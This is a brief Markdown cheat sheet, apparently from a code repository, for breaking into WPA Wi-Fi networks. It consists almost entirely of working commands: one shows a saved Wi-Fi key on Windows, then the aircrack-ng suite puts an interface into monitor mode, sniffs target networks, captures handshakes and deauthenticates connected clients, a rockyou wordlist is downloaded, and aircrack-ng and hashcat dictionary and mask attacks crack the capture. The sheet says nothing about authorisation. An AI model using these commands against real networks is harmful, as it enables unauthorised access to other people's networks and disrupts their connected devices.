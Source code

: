 # CheatSheet Wifi

## Get Wifi key on windows : 
```
netsh.exe wlan show profiles name=’Profile Name’ key=clear
```

## Set your network interface into monitor mode
```
airmon-ng start wlan0
```

## Listen for all nearby beacon frames to get target BSSID and channel
```
airodump-ng mon0
```

## Listening for a handshake
```
airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0
```

## Deauth a connected client to force a handshake
```
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```

## Crack password

Download some wordlist if needed, for example:

```
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

- Crack with aircrack-ng

  ```
  aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap
  ```

- Convert cap to hccapx

  Use the hascat-utils with cap2hccapx.bin 

  ```
  cap2hccapx.bin capture/-01.cap capture/-01.hccapx
  ```

- Crack with naive-hashcat

  ```
  HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
  ```

- Crack with Hashcat

  ```
  hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt
  hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
  ```

  

